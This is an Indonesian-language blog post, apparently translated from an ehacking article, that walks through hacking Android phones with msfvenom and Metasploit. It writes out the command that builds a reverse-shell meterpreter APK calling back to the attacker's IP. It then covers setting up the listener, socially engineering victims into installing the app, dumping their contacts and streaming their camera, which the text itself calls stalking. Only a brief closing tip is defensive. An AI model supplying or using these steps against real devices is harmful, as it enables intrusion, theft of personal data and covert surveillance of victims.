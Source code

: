 ```yaml
---
layout: post
image: https://lh3.googleusercontent.com/-rxGLOCRjIps/YYiUiLESssI/AAAAAAAAHec/faFJ7Uhm8_8Npi45FrYeYZvcin7miaXEwCLcBGAsYHQ/hack-android.webp
title: Hack ponsel Android dari jarak jauh
tag: Linux
author: x1666
excerpt_separator: <!--more-->
---
```


Kita akan menggunakan msfvenom untuk membuat payload dan<!--more--> menyimpannya sebagai file apk. Setelah menghasilkan payload, kita perlu menyiapkan listener ke framework Metasploit. Setelah target mengunduh dan menginstal apk jahat, penyerang dapat dengan mudah mendapatkan kembali sesi meterpreter di Metasploit. Penyerang perlu melakukan beberapa rekayasa sosial untuk menginstal apk di perangkat seluler korban.

## Tutorial langkah demi langkah

    
### Menghasilkan Payload dengan msfvenom

Pertama, jalankan Kali Linux sehingga kita dapat menghasilkan file apk sebagai aplikasi berbahaya. Kita perlu memeriksa IP publik kita yang ternyata '192.168.0.112'. Kamu juga dapat meretas perangkat Android melalui Internet dengan menggunakan IP Publik/Eksternal kamu di LHOST dan dengan port forwarding.

![kali](/images/kali.png)

Setelah mendapatkan IP host publik Anda, gunakan alat msfvenom yang akan menghasilkan payload untuk menembus perangkat Android. Ketik perintah:
<pre>
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R > ehacking.apk
</pre>
## Dimana:
- <b>-p</b> menunjukkan jenis payload.
- <b>android/meterpreter/reverse_tcp</b> menentukan shell meterpreter terbalik akan datang dari perangkat Android target.
- <b>LHOST</b> adalah <b>IP Publik</b> Kamu.
- <b>LPORT</b> diatur sebagai listening port.
- <b>R> /var/www/html</b> akan memberikan output langsung di server Apache.
- <b>apk</b> adalah nama akhir dari hasil akhir.

Ini akan memakan waktu untuk menghasilkan file apk hampir sepuluh ribu byte.

![kali-linix](/images/kali2.png)

<br />

# Meluncurkan Serangan

![kali-linux](/images/kali3.png)

Semua tampaknya sudah siap, sekarang jalankan <b>msfconsole</b>. Gunakan <b>exploit multi/handler</b>, atur <b>payload</b> sama seperti yang dihasilkan sebelumnya, atur nilai <b>LHOST</b> dan <p>LPORT</p> sama seperti yang digunakan dalam payload dan terakhir ketik <b>exploit</b> untuk meluncurkan serangan.
![kali-linux](/images/kali4.png)


Dalam skenario kehidupan nyata, beberapa teknik rekayasa sosial dapat digunakan untuk membiarkan target mengunduh file apk berbahaya. Untuk demonstrasi kita hanya tinggal mengakses mesin penyerang untuk mengunduh file di perangkat Android.
![kali-linux](/images/kali5.jpg)

Setelah berhasil mengunduhnya, pilih aplikasi yang akan diinstal.

Sejauh ini, opsi penginstallan sering terlihat ketika kita mencoba menginstal beberapa aplikasi pihak ketiga dan biasanya pengguna tidak akan ragu untuk mengizinkan instalasi dari sumber yang tidak dikenal.
![kali-linux](/images/kali6.jpg)

Setelah pengguna menginstal aplikasi dan menjalankannya, sesi <b>meterepreter</b> akan segera dibuka di sisi penyerang.
![kali-linux](/images/kali7.png)

<br />
    {% include iklan-artikel.html %}
# Post Exploitation

Ketik <b>"background"</b> dan kemudian <b>"sessions"</b> untuk membuat daftar semua sesi dari mana Anda dapat melihat semua IP yang terhubung ke mesin.
![kali-linux](/images/kali8.png)


Kamu dapat berinteraksi dengan sesi apa pun dengan mengetik <b>sessions -i [session ID]</b>
Setelah memasuki sesi, ketik <b>"help"</b> untuk membuat daftar semua perintah yang dapat kita ajukan di sesi ini.


Kamu dapat melihat beberapa perintah sistem file yang berguna saat Anda mencoba mencari beberapa informasi atau data sensitif. Dengan menggunakan ini, Kamu dapat dengan mudah mengunduh atau mengunggah file atau informasi apa pun
![kali-linux](/images/kali9.png)

Kamu juga akan menemukan beberapa perintah jaringan termasuk portfwd dan route
![kali-linux](/images/kali10.png)

Beberapa perintah sistem yang kuat untuk mendapatkan ID pengguna, mendapatkan shell atau mendapatkan informasi sistem yang lengkap.

Ketik "app_list" dan itu akan menampilkan semua aplikasi yang diinstal pada perangkat.
![kali-linux](/images/kali11.png)

Kita juga memiliki kekuatan untuk mencopot pemasangan aplikasi apa pun dari perangkat Android.
![kali-linux](/images/kali12.png)


# Mengekstrak Kontak dari Perangkat Android

Sekarang kita ekstrak beberapa kontak dari perangkat target dengan mengetik "dump" dan tab ganda
![kali-linux](/images/kali13.png)

Ini akan menampilkan semua opsi untuk mengekstrak dari perangkat. Ketik "dump_contacts" dan enter
![kali-linux](/images/kali14.png)

Ini akan mengekstrak semua kontak dari perangkat Android dan akan menyimpannya di direktori lokal kita. Untuk melihat file ini ketik “ls” dan “cat [file_name]”
![kali-linux](/images/kali15.png)

Ini akan menunjukkan konten file kontak yang sebelumnya diunduh dari perangkat target. Informasi ini sangat sensitif dan dapat dimanfaatkan oleh peretas.

# Mengendalikan Kamera Android

Dengan mengetik perintah <b>"webcam_stream"</b> kamu bisa menyusup dan mengamati melalui kamera android si korban, dan menguntitnya.
![kali-linux](/images/kali16.webp)

# Waspada... Android Terbaru pun Masih Lancar Terkena Serangan.

Handphone xiaomi MI10 dengan OS Android 10 Masih Lancar terkena serangan, Untuk kamu yang masih sering klik website tidak jelas yang masuk ke sms atau via whatsapp sebaiknya berhati-hati dari sanalah aplikasi ini terinstall diam-diam di android kamu.
![kali-linux](/images/kali17.webp)

![kali-linux](/images/kali18.webp)


Ada masih banyak lagi perintah yang tersedia di <b>meterpreter</b>. Lebih lanjut coba jelajahi dan pelajari apa yang bisa kita lakukan dengan perangkat Android. Ini menyimpulkan bahwa kita telah berhasil menembus perangkat Android menggunakan Kali Linux dan Metasploit-Framework.


Tip sehat untuk mengamankan perangkat Android kamu adalah dengan <b>tidak menginstal aplikasi apa pun dari sumber yang tidak dikenal</b>, bahkan jika Anda benar-benar ingin menginstalnya, cobalah untuk membaca dan memeriksa kode sumbernya untuk mengetahui apakah file ini berbahaya atau tidak.



<small>Artikel ini awalnya diterbitkan di [blog ehacking.](https://www.ehacking.net/2020/04/how-to-hack-an-android-phone-using-metasploit-msfvenom-in-kali-linux.html)</small>
